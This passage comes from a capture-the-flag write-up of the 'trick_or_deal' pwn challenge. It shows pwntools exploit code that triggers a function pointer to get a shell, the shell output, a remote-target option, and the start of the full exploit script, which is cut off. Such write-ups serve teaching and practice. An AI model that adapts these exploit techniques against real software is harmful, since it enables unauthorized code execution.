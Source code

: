 All that's left to do is to call the function pointer, with the first action.

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;">[*] What do you want to do? <font color="#F92672"><b>$</b></font> 1

<blink><font color="#A6E22E">[*] Bruteforcing Storage Access Code . . .</font></blink>

<font color="#A6E22E"><b>* Storage Door Opened *</b></font>
<font color="#F92672"><b>$</b></font> id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
</code></pre></div>
{{< /rawhtml >}}

Add this ultimate step, and we have a complete exploit.

```python3
io.sendlineafter(b'[*] What do you want to do? ', b'1')

io.interactive()
```

### Remote option

It's nice to have a REMOTE option to target the ctf server. I generally modify the `start()` function of the exploit script with this option.

```python3
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)

    elif args.REMOTE: # ('server:port')
        return remote(sys.argv[1].split(':')[0], sys.argv[1].split(':')[1])

    else:
        return process([exe.path] + argv, *a, **kw)
```

## Final

Below the full exploit script.

```Python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template trick_or_deal
from pwn import *

context.terminal = ['tilix', '--action=session-add-right', '-e']

# Set up pwntools for the correct architecture
exe = context.binary = ELF('trick_or_deal')

# Many built-in settings can be controlled on the command line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)

```